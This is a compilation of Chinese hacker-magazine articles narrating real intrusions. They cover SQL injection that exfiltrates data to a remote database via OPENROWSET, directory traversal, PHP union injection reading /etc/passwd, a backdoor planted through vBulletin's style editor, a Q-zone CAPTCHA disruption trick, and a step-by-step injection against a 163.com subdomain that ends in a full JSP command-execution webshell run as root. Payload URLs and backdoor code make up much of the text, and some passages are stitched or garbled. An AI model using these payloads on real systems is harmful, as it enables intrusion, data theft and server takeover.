以天网防火墙为例，普通用户安装时往往使用默认设置。默认设置中有如“禁止局域网上使用我的共享资源”“允许局域网的机器使用我的共享资源”等选项。可见用户的共享资源在互联网上是安全的，但是经过浩方之类的游戏平台和 VNN 软件转换成局域网后，就变得十分危险了！

再看看金山网镖防火墙，在默认设置下使用的“中安全级别”，此时局域网中的用户不仅可以使用 Ping 命令互相探测，而且可以访问共享资源、查看机器名、使用 HTTP、SMTP、TELNET……等（图24）！金山网镖对局域网内的用户限制更为宽松，通过 VPN 技术转换为内部局域网后，不仅仅是共享漏洞的问题，可进行的入侵破坏性更大！

至于其它的防火墙也与此类似，在默认设置情况下大多数都很信任局域网用户，给 VPN 入侵提供了大好的机会。另外的两类用户，内网安装了防火墙情况下也与上面相同，而且处于内网的用户有百分之九十以上的可能，对本地资源进行共享，出于信任一般情况下都不给共享资源加上密码的。此外，许多内网用户是没有安装防火墙的，尤其是许多公司或企业内部网络用户通常是在网关处安装防火墙，内部局域网用户可以自由地访问，这样的危害更大！假设某个公司用户通过游戏平台连入了虚拟局域网中，那么来自虚拟局域网的入侵者可能通过控制此用户电脑，并进而控制整个公司网络……其后果是不堪设想的！


图24

## 2. 防范 VPN 入侵

其实准确说来，上面人们入侵过程中所利用的漏洞，并不能真的算是浩方之类的游戏平台或 VNN 软件的漏洞，也不能说是防火墙的缺陷，只能说两者的结合才造成了黑客入侵的发生。要防范此类攻击，需要从这两处分别入手。

首先，对于浩方和 QQ 游戏大厅之类的游戏平台，不应该暴露游戏者的虚拟 IP 地址。像联众和中国游戏在线就做得比较好，这样可以减少游戏者被攻击的可能性。当然有经验的入侵者还是可以探测出其他用户的 IP 地址，例如通过平台玩 CS 游戏时，当 CS 加载连接服务器的过程中，会显示服务器的 IP 地址，入侵者可由此得出游戏房间的 IP 地址段。

其次，在防火墙设置方面，常上游戏平台玩游戏或者使用 VNN 的用户，应该在防火墙中将局域网连接设置为需要审核。如果嫌麻烦的话，直接将防火墙的安全级别设置为“高”也可以。非内网用户不要轻易共享自己电脑上的资源，内网局域网用户在共享资源时一定要加上访问密码。

网上还有各种陷阱，黑客入侵的漏洞也数不胜数，防范这一切的最关键之处是提高安全意识——游戏时也别忘记了安全，这正是本文要告诉大家的。

（文章中涉及到的工具 MS05-039 漏洞溢出三合一工具包、木马 C/A、EXE 文件捆绑机飞狐专版、X-SCAN 已经收录于光盘中）

# 寂寞的刺猬

对于 SQL 数据库的注入，通常利用返回的出错信息来获取数据信息，但如果对方程序屏蔽了错误信息，那事情就难办了！在第 3 期“北边客串——网吧电子图书馆长”一文中，我利用管理员疏忽的“.vti_bin”目录，得到了网站的信息，但如果管理员删除了此目录或是服务器为 2003 Server，该如何突破呢？

偶然的一天，我从网上发现 SQL 中有个不错的函数，“Openrowset”，一个用于访问远程数据库的函数，即使在普通权限下也一样可以运行，正因为它的独特功能，才给我们提供了一种突破屏蔽拿数据的方法。比如，我们找到的有注入点的机器为 A，而远程数据库所在的机器为 B，那么当在 A 的 URL 中执行 Openrowset 语句时，它就会把 A 数据库中的信息写入到 B 数据库内，这样，当我们查询 B 机中特定表的内容，其实就是 A 数据库中的信息。


图1

这样说得太过笼统，下面就来一次情景再现。先介绍一下环境，有注入点的机器 IP 为 172.18.0.4，以下简称 4 号机，网站采用的是 SQL 数据库，其注入点是：“http://172.18.0.4:8081/client/display_book.asp?book_id=8736”，未过滤分号“;”及破折号“--”；远程数据库所在的 IP 为 172.18.0.6，以下简称 6 号机。要使用 Openrowset 函数，必须具有远程数据库的访问权限才可以，选择 6 号机作为远程数据库的原因就是因为我前几天扫描到某 SQL 数据库的一个普通权限，账号是“stu”，弱口令为“123456”。

本地数据表中的字段名 from 本地数据表——。OK！一切就绪，开始查询 4 号机的磁盘内容。

第一步：在本机运行“休闲庄”从 SQL 中分离出来的“查询分析器”，如图1，在“SQL Server”中输入远程数据库 IP：“172.18.0.6”，在“SQL Server 身份验证”下的“登录名”中输入：“stu”，密码为：“123456”，连接成功后，在其中执行如下命令：create table jm_tmp(subdirectory nvarchar(400) null,depth tinyint null,[file] bit null)，如图2，成功。


图2

```sql
insert into openrowset('sqloledb','uid=远程数据库用户名,pwd=密码,server=远程数据库所在IP,SQL端口','select 远程数据表中的字段名 from 远程数据库名.远程数据库用户名.远程数据表名') select 本地数据表中的字段名 from 本地数据表
```

功成完成，在 6 号机的当前数据库内创建了一个 `jm_tmp` 表。

第二步：打开 IE 浏览器，在 URL 中输入如下内容：`http://172.18.0.4:8081/client/display_book.asp?book_id=8736;create table jm_temp(subdirectory nvarchar(400) null,depth tinyint null,[file] bit null)--`。分号前是注入地址，分号后是 SQL 命令，在当前数据库内创建 `jm_temp` 表，这里要注意的是，所创建的 `jm_temp` 表和 6 号机中创建的 `jm_tmp` 表两者的格式要完全一致。

第三步：将 URL 中的语句更改为：`http://172.18.0.4:8081/client/display_book.asp?book_id=8736;insert jm_temp exec master..xp_dirtree 'c:\',1,1--`。分号后的 SQL 命令是将 C 盘下的目录及文件插入到 `jm_temp` 表中。

第四步：这一步的主角就是 `Openrowset` 函数了！来看看其功能展示。将 URL 更改为：`http://172.18.0.4:8081/client/display_book.asp?book_id=8736;insert into openrowset('sqloledb','uid=stu;pwd=123456;server=172.18.0.6,1433;','select * from school.stu.jm_tmp') select * from jm_temp--`。这一段的意思就是将本地 `jm_temp` 表中的内容插入到远程 `172.18.0.6` 的 `school` 数据库中的 `jm_tmp` 表内……

第五步：经过上面四步后，4 号机 C 盘内的目录及文件信息已经反弹至 6 号机中的 `jm_tmp` 表中了……


图3

如果继续查询 C 盘子目录或其他盘中的内容，则直接从第三步执行就可以了，不过，在执行之前要更改一下其中的内容：`http://172.18.0.4:8081/client/display_book.asp?book_id=8736;delete jm_temp;insert jm_temp exec master..xp_dirtree 'd:\',1,1--`。先用 `delete` 语句删除表中的内容，再把查询的内容插入到 `jm_temp` 表中，然后再执行第四步的 `openrowset`……

无独有偶，除了“Openrowset”函数外，SQL 中还有一个访问远程数据库的函数，就是“Opendatasource”函数……

下面先看一下“Opendatasource”函数的格式：`insert into opendatasource('sqloledb','uid=远程数据库用户名,pwd=密码,server=远程数据库所在IP,database=远程数据库名').远程数据库名.远程数据库用户名 select 注入数据库表中的字段名 from ...注入数据库名--`。

虽然格式和 `Openrowset` 函数不太一样，但其中的参数却和 `Openrowset` 函数大同小异。下面就让 `Opendatasource` 函数展示一下功力，用其读取 4 号机的虚拟目录路径。

第一步：和 `Openrowset` 函数一样，先用“查询分析器”连接到 6 号机，在其中执行以下语句：`create table cw_tmp(value nvarchar(256) null,data nvarchar(256) null)`，创建 `cw_tmp` 表。

第二步：在 URL 中执行如下内容：`http://172.18.0.4:8081/client/display_book.asp?book_id=8736;create table cw_temp(value nvarchar(256) null,data nvarchar(256) null);insert cw_temp exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','',''--`……

第三步：更改 URL 内容为：`http://172.18.0.4:8081/client/display_book.asp?book_id=8736;insert into opendatasource('sqloledb','server=172.18.0.6;uid=stu;pwd=123456;database=school').school.stu.cw_tmp select * from ..cw_temp--`……

第四步：在查询分析器中执行 `select * from cw_tmp`，如图4，4 号机的虚拟目录尽收眼底。


图4

`Openrowset` 和 `Opendatasource` 函数的使用方法就简单介绍这些，它不仅可以查询磁盘、虚拟目录等信息，还可以帮助获取注入点数据库中的信息，功能还是很强大的！以后大家遇到屏蔽了错误的注入不妨试一下这两个函数，说不定就会有所突破呢！

目录遍历漏洞在国内外有许多不同的叫法，比如也可以叫做信息泄露漏洞、非授权文件包含漏洞。名称虽然多，可它们都有一个共同的成因，就是在程序中没有过滤用户输入的“../”和“./”之类的目录跳转符，导致恶意用户可以通过提交目录跳转来遍历服务器上的任意文件。


测试成功说明了漏洞的存在，我们接着读一些敏感文件吧，提交如下 URL：`http://localhost/loudblog/loudblog/loudblog/index.php?page=../../../../../../conf/httpd.conf%00`，结果如图2所示。

首先，我们来看一个国外的 BLOG。前几天从网上下了一个名为 LoudBlog 的 BLOG 程序，在它的 index.php 页面中看到如下代码：

```php
if (isset($_GET['page'])) {
    $loadinc = 'inc/' . $_GET['page'] . '.php';
} else {
    $loadinc = 'inc/backend_postings.php';
}
...
include($loadinc);
```


这段程序很简单却包含了一个可怕的漏洞，变量 $page 是我们 GET 上去的，如果没有设置 page 参数，程序就自动包含 inc/backend_postings.php 这个文件；如果有 page 参数，就把 $page 的值放到 inc 目录下，形成一个新的文件名。这里并没有对 $page 的值做任何过滤，导致了我们可以遍历所有文件。

要注意的是，我们提交的 $page 值会自动加上 php 后缀，所以阅读 php 文件不会有效果。不过，可以读一些配置文件。下面测试一下，我们在 inc 目录外建立一个 TXT 文件，内容为“Who !s H4K_BaN?”，提交 URL：`http://localhost/loudblog/loudblog/loudblog/index.php?page=../../hello.txt%00`，这里要说明的是由于变量会加上 php 后缀，所以要用“%00”来截断后缀。

APACHE 的配置文件也顺利读出来了，这类遍历漏洞唯一的不足就是不能读取 config.php 之类的文件，接下来看另外一种情况。

这类漏洞主要存在于基于 PHP+TXT 结构的程序中，漏洞代码也是来自于一个国外的 BLOG，代码如下：


```php
$act = $_GET['act'];
if ($act == '') {
    include('blog.txt');
} else {
    include('act/' . $act . '.txt');
}

$blogid = $_GET['blogid'];
if ($blogid == '') {
    include('blog.txt');
} else {
    ...
}
```

# 一个人的战争

```php
include("./blog_entries/$blog_id.txt");
```

从上面的代码可以清晰地看出问题所在。第一段程序获得 $_GET[] 提交的数据并赋值给 $act，这里没有对 act 做任何过滤；而在后面判断如果变量为空就把 blog.txt 包含进来，如果不为空就包含 act 目录下的 $act.txt 文件……

像 $blogid 这类数字型的参数只需用 intval() 函数强制整型化即可。对于字符型参数可以写过滤函数把危险字符过滤掉，类似代码如下：

```php
function fuckchar($var){
  $var = str_replace(...);
  $var = str_replace(...);
  $var = str_replace(...);
  $var = str_replace(...);
  $var = str_replace(...);
}
```

大家可以自己测试一下这类漏洞，不管什么语言过滤的思路都是一样的。用 GOOGLE 搜索“powered by loudblog”可以找到一些这类程序，不过官方目前已经推出了新版本……

# 小疏忽，大隐患——利用 robots 文件轻松挖掘网站信息

本文所利用的方法是我在一次入侵时意外发现的，想必大家已经利用注入或者暴库漏洞获得了许多网站后台管理员账号和密码了吧！但常常又为利用注入工具找不到网站后台地址而发愁……

管理员会不会也用了这种方法来隐藏后台呢？我搜起 IE，准备访问其根目录下的 robots.txt 文件，结果……不光是后台地址被暴露了，而且连数据库地址也被无情地显示了出来，如图2、图3！


于是，我开始狂翻以前的 X 档案，温故而知新嘛！在 05 年 11 期中看到踏雪无痕的一篇名为“网络加密面面观”的文章。文中提到当 Robots 检索一个站点前，它会首先检查网站根目录下是否有一个名为 robots.txt 的文件……

## 解释一下什么是 robots.txt 文件？

搜索引擎通过一种程序 robot（又称 spider）自动访问互联网上的网页并获取网页信息。我们可以在网站中创建一个纯文本文件 robots.txt，在这个文件中声明网站中不想被 robot 访问的部分……

声明该网站中不想被 robot 访问的部分，这样，该网站的部分或全部内容就可以不被搜索引擎收录了，或者指定搜索引擎只收录指定的内容。这本来是个很好的办法，可是如果被非法用户利用的话就会非常可怕，网站的秘密信息将暴露无疑！所以希望管理员们要慎用这种方法！另外本文也给苦于找不到后台的朋友 show 了一种新的思路，用它找后台不失为一个好办法，推荐使用哦！而且我想很多“精明”的管理员会用这个方法的！好了，最后祝大家新的一年闪鸡多多，技术上提升一个新的台阶！

# 一、又是 PHP 注入


非常幸运，碰到的这个国内较大的兄弟论坛又是 PHP 注入，而且非常明显，好像还没被人入侵过哦，不知道是不是它太幸运了。我记得去年也曾入侵过一个排名近 7 千的博彩站，前不久再去看时发现漏洞还是存在的，只不过它的注入点已由“地上”转为“地下”了，这足以证明国内大部分网站的网管都是懒惰的。这个网站也不例外，到我准备写本篇文章时，整个入侵已经过去了差不多 2 个月了，虽然明显的注入点已经被修补了，但我最初利用的注入点还是存在，似乎网管不太喜欢查看 WEB 日志哦。

PHP 注入很简单，过程还是那样傻瓜化：找注入点、猜字段、表名，然后爆数据。在 `http://www.target.com/vote.php?ID=12` 后添加 `'`，返回如图 1 所示，错误回显没有关闭，很轻易地，注入点就找到了。


继续提交 `vote.php?id=120 and 1=1 union select 1`、`vote.php?id=120 and 1=1 union select 1,2` ……直到提交 `vote.php?id=120 and 1=1 union select 1,2,3,4`（图 2），返回了正确页面。


试试看能不能爆出 `/etc/passwd`，提交 `vote.php?id=120 and 1=1 union select 1,2,3,load_file(char(47,101,116,99,47,112,97,115,115,119,100))`，即将 `/etc/passwd` 转为 16 进制格式。成功爆出了 passwd（图 3），兴奋 ing，这足够的权限，应该足以让我拿到 WEBSHELL。

`union select 1,2,3,4 from ***`，很快便得到 ADMIN 表。再继续提交 `vote.php?id=120 and 1=1 union select 1,2,3,username from admin`（图 4）、`vote.php?id=120 and 1=1 union select 1,2,3,password from admin`（图 5），得到了 username 及 password 字段。由于 username、password 是字符串，再对比页面可知字段 4 属于字符串，所以要将字段的任务放在字段 4 上，这样 username 及 password 字段处显示的字符串便是管理员账号及密码；如果不满足这一个账号密码，可以再利用 `... where id=*` 枚举 id 1、2、3……


简单介绍一下这个网站的一些情况：服务器使用的是 Linux + PHP + MYSQL，论坛采用的是 VBB，VBB 安全性能不错。猜解表名、字段过程不赘述，常见的就行，如：manage、manager、admin、user、username、id、pass、password、passwd 等等，再或者可以使用 HDSI、CASI 等工具来注入。我使用的就是手工注入……


不知是为什么，后台始终传不了图片，前台可以上传，但上传的文件名都经过了处理，猜不到文件名也没办法。如果这里是 JSP 注入就很简单了，直接 `load_file('上传文件夹路径')` 就可以爆出整个目录下文件。

直接在论坛里写入后门到数据库备份成 PHP 文件，可能是由于数据库太大了，重试了几次都不成功，每次都提示 IE 停止响应。入侵难道就这样终止？

# 二、后台

# 三、见缝插针

原本以为，拿到了管理员账号，然后登录找到的后台 `/manage/`，再上传后门就可以拿下整个网站，没想到刚满怀信心地拿着账号登录后台，成功登录后却出错了（图6），mysql 连接出错，难道这个后台只是个摆设？

在网上下载了 VBB 论坛仔细看了看，想找到可以利用的地方，花了点时间终于找到一处可以写代码的地方，和其他的程序一样，它也是可以插入代码到网页的。

OK，看我是怎么写木马后门进去。登录后台后，在管理员控制版面首页找到风格设置，选择编辑，便会出现风格登录选项，选择默认中的[字体/颜色/等等]，如图8，看到的便是 PHP 分析代码一栏。对了，就是它，这就是写入后门的地方了。


此路不通，看来只有另找他路了。我把眼光转向论坛，论坛已经测试过了，不存在没有修补的漏洞。尝试着用拿到的管理员密码登录论坛后台，结果很郁闷。还是从注入方面着手，我想到了跨库查询，和 ASP 一样 PHP 的注入也是可以跨库的，具体可以去 www.google.com 搜索相关文章，这里就不介绍了。通过 `load_file()` 查看论坛配置文件的话，在图7得知论坛数据库名为 bbsfootball。


提交 `http://www.*****.com/vote.php?ID=I2%20and%201=2%20union%20select%201,2,3,password%20from%20bbsfootball.user%20where%20userid=X`（user 为 bbsfootball 库的表名，至于 X 可以去论坛查看管理员账号的 userid），得到管理员密码。可惜密码经过 MD5 加密，不过没关系，网上有不少可以直接查询 MD5 的网站。在 WWW.xmd5.com 查询所有的密码，很幸运地找出了 1 个简单密码。终于进入了论坛后台，现在摆在面前的是两条路：

- 1. 上传后门。直接上传是不可能的，只能上传图片再利用 `load_file('图片绝对路径') into outfile '后门绝对路径'` 得到后门。前边不行哦，`magic_quotes_gpc=ON` 下，服务端会自动将单引号过滤为 `\'`，`outfile` 是不行的。
- 2. 和动网一样，将插入 PHP 的一句话后门插入图片中，再备份数据库，再用客户端连接，上传更强大的后门。


直接在这里写入 `system($cmd);`（注意，不能这样画葫芦输入 `'/system($cmd);'`，否则代码不会解析），再 `http://www.target.com/bbs/index.php?cmd=dir` 执行我们的后门，看是否成功插入代码，如图9，成功了。再插入一句话后门，成功连接，图10。接下来该怎么做我想也不用我发扬了，一句话：“地球人都知道”！

# 绕过验证码来把 bot 贴虫封杀掉——Q-zone 留言的小 Bug 坑挖

今天在一好友的 Q-zone 进行例行的每日留言时，突然发现一个小小的 Bug，觉得可能很多程序还会出现类似的问题，可以让我们小小地搞乱一下，这就是验证码的重刷新问题。

我们知道，许多程序在提交表单时会加上一个验证码，以防止用户使用 bot（发帖机器人）恶意发帖或者留言甚至暴力破解密码登录。验证码的原理是：网页上通过调用由服务器端处理的文件（如 getimg.asp）来显示图片；服务器端随机生成若干数字或字母作为验证码并存入 session，再将其生成图片显示到客户端；提交时将用户输入值与 session 中保存值比对，相等则通过，否则报错。

问题在于：如果页面上多次调用验证码文件，会造成验证码与 session 的混乱。比如最后一次调用把 session 改成了新验证码，但用户眼前仍看到旧验证码位置的内容，就会导致“看见的验证码”和“实际校验验证码”不一致。


举例来说，图1展示了一个简单留言本：上方输入昵称、验证码并提交，初次调用 getimg.asp 生成验证码 A（如 1234）并写入 session。页面继续执行到后续位置再次调用 getimg.asp，又生成验证码 B（如 5678）覆盖 session。这样用户按看到的 1234 输入时，服务端实际校验的是 5678，于是出现验证码错误。

由于大多数留言本过滤脚本内容，但很多系统开放了 UBB，允许使用 `[img][/img]` 标签发图。若把验证码图片地址作为图片插入留言（例如 `[img]http://servername.com/getimg.asp[/img]`），就可能触发验证码文件的额外调用，从而扰乱正常校验。

这类“威胁”主要表现为让普通用户难以发布新留言（除非碰巧输入了正确验证码），更像一种“捣乱”手段，但在未处理好多次调用时确实有效。

下面以 Q-zone 为例讲解利用方式。先打开目标 Q-zone 并切到“留言”界面（示例对象为庆祝 H4K_B4N 荣升两个太阳），如图2。


在验证码图片上右键查看属性，可见地址类似 `http://verify.qq.com/getimage?0.1774952870657645`。`getimage` 后面的随机数字主要用于防缓存，让每次请求都被视为不同图片，避免浏览器缓存导致验证码显示错误。

随后在该 Q-zone 发表一条留言，在留言中插入该验证码图片地址。发布后可以在留言里看到验证码图片；再发第二条留言并提交，就可能返回“验证码错误”（见图3），说明利用生效。系统在报错后通常会刷新验证码，这时验证码与 session 会重新匹配，再输入即可提交。


# 某某匿名上万网号

可能大家对于这个利用过程还有疑问：在页面上看来，我们所发布的“验证码 B”是在“验证码 A”的前边出现的，而根据原理，最后 session 中应当存放验证码 A 的信息（即 TUGH）才对呀。是这样的，由于 QQ 页面的显示比较特殊，是通过利用类似 AJAX 的技术来实现页面显示的。其页面首先显示出非留言的内容，包括页面的基本构架和“发表留言”的表单，然后通过读取远程的 xml 数据文件并处理，来显示留言，因此留言部分其实是在验证码 A 之后显示在客户端的。

这种漏洞的防御也十分简单，一方面可以通过禁止在留言中附加图片；如果必须附加图片，则检测此图片地址是否为验证码文件的地址。另一方面可以规范页面流程，使得调用“验证码 A”的地方在用户发布的内容之后。

网易（163.com）是国内最著名的门户网站之一，提供包括个人空间、邮箱、交友等在内的各种服务，服务多了，难免会存在安全漏洞！这次，我就看上了网易！

我决定去找那些传递参数的页面，倘若不小心有那么一个参数没有过滤的话，我们可就有空子钻了！网易的脚本基本上使用的都是 jsp 和 php，主站是静态的，应该没什么问题，但其他子站点上那么多的 jsp 和 php 可就难说了！我决定去找 jsp 的脚本。

终于找到了一个 `http://XXX.163.com/wap/content.jsp?id=120`，还是个数字类型的变量哦，这是个好消息，因为没有过滤的数字类型变量，如果能注入的话基本上没有什么阻碍。我们开始提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=1`，返回正常（图1）。


接着提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2`，返回了一堆 jsp 错误（图2），还搞到了 web 的路径。通过显示出的路径 `/home/projict/webl63/web`，我们可以判断出对方使用的系统为 UNIX/Linux。


上边的提交，一个返回正常，一个返回出错，很有可能这就是一个注入点，因为我们提交的 `and 1=1` 和 `and 1=2` 被当作 SQL 代码执行了。如果参数没有做过滤的话，我们就可以在这里提交我们的注入代码了。因为 jsp 可以知道数据库信息，所以我们先来看看对方使用的是什么数据库吧，提交：`http://XXX.163.com/wap/content.jsp?id=120/*`，返回结果如图3所示，看来支持“/*”注释；支持“/*”注释的数据库是 mysql。


知道了使用的是 mysql 数据库，就来看看系统的版本吧，如果是 4.0 以上的版本对于猜表和注入是很有帮助的！提交：`http://XXX.163.com/wap/content.jsp?id=120 and ord(mid(version(),1,1))>51/*`，返回了正常的结果，看来应该是 4.0 及以上的版本，也就是说支持 Union 查询！


既然支持 Union 查询，我们就来看看字段的个数吧，提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1/*`，返回了错误（图4），继续提交：

```text
http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2/*
http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3/*
```

一直到提交 `http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3,4,5,6,7,8,9,10/*` 的时候，返回了正常的结果（图5），看来是10个字段，并且那些字段也会在页面显示出来！


图5


图6


图7


图8

现在能使用 Union 查询了，就总的看下数据库的信息吧！提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3,4,5,user(),database(),8,9,version()/*`，返回结果如图6所示，我们知道了数据库名字以及用户连接的名字，还有数据库具体版本，那么下一步该怎么做呢？我看着图6中那个特殊的用户名，突然想到这个用户会不会是管理员之类的呢！来看该用户的权限够不够大，关键是能不能读写文件！提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3,4,5,user(),database(),8,9,10 into outfile '/tmp/jnc.txt'/*`，注意此处的提交与 PHP 注入不同，JSP 不会对提交的任何字符做转义处理，所以我们放心地提交就行了。从图2中我们已经判断系统使用的是 UNIX/Linux 系统了，所以写文件到 `/tmp/jnc.txt` 中，这个目录一般都是可写的。然后继续提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3,4,5,user(),database(),8,9,load_file('/tmp/jnc.txt')/*`，其返回分别如图7、图8所示，看来是写文件和读文件都成功了！有 File 权限哦，在 JSP 环境下不受 PHP 下那种特性的影响，可以在权限允许的范围内随便写文件！

既然权限有了，来判断一下 web 服务器和 MySQL 服务器是不是同一个主机吧。是的话就可以免去猜测密码的痛苦了。从图2中已经得知了 web 的路径，我们就来读 web 服务器上存在的文件，如果存在的话就应该是一个主机！提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3,4,5,user(),database(),8,9,load_file('/home/project/web163/web/content.jsp')/*`，读取我们的 content.jsp，如图9，成功返回了！


图9

我又读了另几个文件都成功返回，这说明是一个服务器哦！对我来说，最感兴趣的东西当然是密码了！查看刚才返回的源文件，我发现里面包含了 Function.jsp，于是就去读 Function.jsp 的内容，提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3,4,5,user(),database(),8,9,load_file('/home/project/web163/web/function.jsp')/*`，返回结果如图10，哈哈，看源文件得到了密码！我们来连接试试，打开自己的 MySQL 客户端连接上去，输入得到的密码后，如图11，看来是 MySQL 拒绝了其他 IP 的登录！虽然不能连接 MySQL，但是我们已经有了一个注入点，还能写文件和读文件，那么就从脚本上继续前进吧！

既然知道了 web 路径，又能写文件，那么能不能使用“into outfile”导出一个 webshell 呢？我试着开始提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 into outfile '/home/project/web163/web/jnc.jsp'/*`，但是结果却很令我郁闷，写到 `/tmp/` 下就成功，换到 web 目录下就不行，试了很多次都是这个结果，应该是权限的原因了！UNIX/Linux 很大的一个优点就是权限设置得很好，默认只有创建者才有权限修改文件，我们当前使用的用户是 MySQL 的，当然不能在 Apache 的目录下建立文件了！至此我的入侵遇到了第一个阻碍，并且暂时没有办法解决！

# 一个人的战争

这条路不行就还回到脚本上来吧！去根目录加了个 `/admin`，却提示 403 Forbidden 错误，哈哈，这个是管理员最不愿意看到的！我兴冲冲地提交 `login.jsp` 和 `login.html` 以及所有我觉得可能的后台登录文件，但服务器都无情地给了我一个 404 错误。这条路也死在这里了！

我停下来想了想，忽然想到，UNIX/Linux 服务器本身是很安全的；但是会不会存在人为的安全漏洞呢？我在其他的网站上经常看到，除了一些常用的目录外，管理员还设置了 test 目录以方便其他管理员调试脚本，并且这个目录的权限通常是设置成 777，也就是任何人（Everyone）可读可写的；如果存在这样的目录的话……


我马上去网站提交：`http://XXX.163.com/test/`，提示 404 不存在；提交 `http://XXX.163.com/wap/test/`，提示了“403 Forbidden”，哈哈，居然存在啊！我马上接着提交：`http://XXX.163.com/wap/content.jsp?id=120 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 into outfile '/home/project/web163/web/test/jnc.txt'/*`，等到返回错误的时候去访问 `http://XXX.163.com/wap/test/jnc.txt`，如图12，哈哈，存在啊！看来真让我发现一个人为的安全隐患啊！这就是经验了！好了，可以导出为 txt 文件，那么导出为 php 文件呢？我写了一个一句话木马导出为 php 文件，访问这个 php 文件居然提示下载，看来 web 目录只支持 jsp 后缀，我们只能导出为 jsp 文件了！我马上找了个 jsp 后门：


```jsp
<%@ page import="java.io.*" %>
<%
try{
  String cmd = request.getParameter("cmd");
  Process child = Runtime.getRuntime().exec(cmd);
  InputStream in = child.getInputStream();
  int c;
  while((c = in.read()) != -1){
    out.print((char)c);
  }
  in.close();
  try{ child.waitFor(); }catch(InterruptedException e){ e.printStackTrace(); }
}catch(IOException e){
  System.err.println(e);
}
%>
```


就是能执行命令，执行形式是在 URL 里访问“jnc.jsp?cmd=命令”。因为我们是用“into outfile”导文件并且是在 Union 查询中用的，所以要导出的内容必须在 Union 的最后，否则是不能得到我们结果的。在导出之前我们还要将 jsp 的语句写到一行，不影响 jsp 的执行但是方便我们导出！再看看，发现字符串好像太长，GET 可能满足不了要求，于是干脆自己写了个 HTML 吧！内容如下：

```html
<form action="http://XXX.163.com/wap/content.jsp" method="post">
  <input name="id" type="text" size="1000">
  <input type="submit">
</form>
```

然后提交栏里写上：`120 and 1=2 union select 1,2,3,4,5,6,7,8,9,'写在一行的木马语句' into outfile '/home/project/web163/web/test/jnc.jsp'/*`，如图13，点提交之后我们去 test 目录看看，哈哈，我们的木马真的存在了！提交：`http://XXX.163.com/wap/test/jsp3.jsp?cmd=id`，返回结果如图14所示，居然是 root 权限的，这可是最大哟，省得我们再提权了！

一个小小的参数没有过滤，再加上一个用于调试脚本的目录的权限设置不正确，导致的结果就是整个服务器的沦陷。不仅仅是网易的管理员，也希望所有的管理员能够重视这个问题。有什么问题欢迎到 X 的论坛（www.hackerxfiles.net/index.php）和我一起探讨！

> X 档案忠告：人怕出名猪怕壮；服务多了怕有洞！这是未来最近总结出来的名言。就以网易来说吧，服务多了，我也挣了，这自然嘛，漏洞也就不少了。当黑客盯上了有漏洞的网易一家，没发生什么惨呢？网易也拜托你们在创意超前之下，哦，说错了，sorry，应该说是连网易也倒在了黑客的魔手之下，Internet 上还有什么是安全的呢？或许最后我们总结出来的就是：黑客，才是 Internet 的老大。

## 菜鸟IIS Session欺骗实战

一天，朋友在学校的虚拟主机弄了一个站点，据说是自己开发的源代码，想让我帮他做个检测，恰好最近在学习 ASP 脚本，于是就答应了。

得到地址后，二话没说先看看有没有注入漏洞，如图1所示，站点上基本也就只有一些文章，留言板也没有。分别提交“and 1=1”和“and 1=2”，返回同一个页面，如图2，说明这个参数不存在注入。


图1


图2

为什么只能说明这一个参数呢？因为这一个 URL 实际上是包含几个参数的，我们习惯是对 id 这类参数提交测试而已，其实 URL 前面的 xxx 参数同样是可以提交测试的，只要把位置调换一下就行了，对比图3看一下就知道了。


图3

留言地址栏，就这样，我们就找到一个注入点。尽管如此，在我使用 nbsi2 狂注一通后还是没能猜出他的表名，注入的思路就此打断吧，总不能向朋友要他的源代码吧？再试试旁注，从主页列表上找到了一个动网论坛，页尾显示的是 dvbbs7，具体是 sp1 还是 sp2 就有待验证。

试一下，在论坛地址栏敲入 upfile.asp，返回了如图4所示的页面，看起来很可能是 sp1 的版本。有机会了，拿了个上传工具传了个 asp 木马上去，具体过程不写了，读者可以翻看一下以前的杂志，如图5。


图4


图5

登录海阳木马，查看文件夹，发现有 N 多站点躺在上面，很快就找到了朋友的那个站点文件夹。打开查看，本以为就此可以在主页上留言东西然后就通知朋友，没想到事情还没那么简单。我的 webshell 竟然没有跨站点修改文件的权限，毕竟人家是虚拟主机啊，不能小看管理员哦。先看看能不能提升权限，后来试了很多种方法都没成功。

我又重新整理了一下思路，突破口就在他的源文件上。虽然不能改，不过我们可以把他的源文件下载回来看看，webshell 就能简单地做到这点。

分析了他的 conn.asp 文件后轻易就下载了他的数据库，在里面找到了被 md5 加密过的密码散列，破解出的几率微乎其微，暂且不予考虑。我们再从他的后台入手，有个 upfile1.asp 的文件好像有问题，原因就是没对任何用户作权限检查，直接访问就能调用，如图6。


图6

虽然对文件格式过滤得很好，但这对我来说已经足够了。继续找到了一个 admin_database.asp，是用来备份数据库的，到此我们就有了新的思路。这个文件的关键代码如下：

```asp
dim DvaspDataname,DvaspDatanameNew,mdb,fs,dbpath ...
```

# 一个人的战争

```asp
fso=Engine.pkfolder.pkdbname:fso1
...
if session("AdminName")="" then
  response.write "<br><p align=center>您没有操作的权限</p>"
  response.end
end if
...
Dv.asp.Data.name="fo"+request("DvaspDataname")
...
Bkm(db)=Backup.name.asp
```


图7

可以看到这里的验证部分很有问题，session 验证代码仅做了简单判断。文章说明可通过已有 webshell 在同主机下伪造 session，从而获取数据库备份相关权限，并给出利用思路与步骤。

```asp
<%
session("AdminName")="notnull"
%>
```


图8

该文件作用是让服务器分配一个合法 session 值（AdminName 非空），进而可调用数据库备份功能。文中继续描述上传 asp 木马、访问 session 文件、再访问后台数据库页面并成功获取目标内容的过程。


图9

